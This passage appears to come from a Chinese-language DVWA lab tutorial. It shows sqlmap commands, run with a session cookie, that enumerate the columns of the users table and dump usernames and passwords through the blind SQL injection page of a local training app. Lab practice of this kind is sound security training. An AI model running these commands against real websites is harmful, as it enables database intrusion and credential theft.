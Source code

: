 暴字段

```shell
sqlmap -u "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=8fkivqb2c1oaqmugqcka4mkgma" -D dvwa -T users --columns --batch

# -D 要爆破的数据库名
# -T 要爆破的表名
# --columns 暴字段名
```

![image-20230805103447864](./DVWA.assets/image-20230805103447864.png)



获取用户和密码

```shell
sqlmap -u "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=14e25onisogeuh3n3mlfkegd9s" -D 'dvwa' -T 'users' -C 'user,password' --dump 

#  -C   'user,password'   要爆破的字段
# --dump 导出数据库 
```

<img src="https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230729142234799.png" alt="image-20230729141616545" style="zoom:33%;" />
